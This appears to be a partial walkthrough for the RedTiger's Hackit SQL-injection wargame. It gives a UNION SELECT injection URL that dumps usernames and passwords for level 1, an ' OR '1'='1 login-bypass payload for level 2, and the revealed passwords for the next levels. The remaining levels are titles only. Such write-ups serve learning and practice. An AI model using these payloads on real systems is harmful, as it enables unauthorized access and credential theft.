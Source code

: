 RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

1. Level 1 : Simple SQL-Injection
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
   You made it dude!

   The password for the next level is: easylevelsareeasy_! 
   
2. Level 2 : Simple login-bypass
```
username : a' OR '1'='1
password : a' OR '1'='1
```
   The password for the next level is: securitycat_says_meow_and_likes_cheese 
   
3. Level 3 : Get an error
4. Level 4 : Blind Injection
5. Level 5 : Advanced login-bypass
6. Level 6 : SQL-Injection
7. Level 7 : SQL-Injection
8. Level 8 : SQL-Injection
9. Level 9 : SQL-Injection
10. Level 10

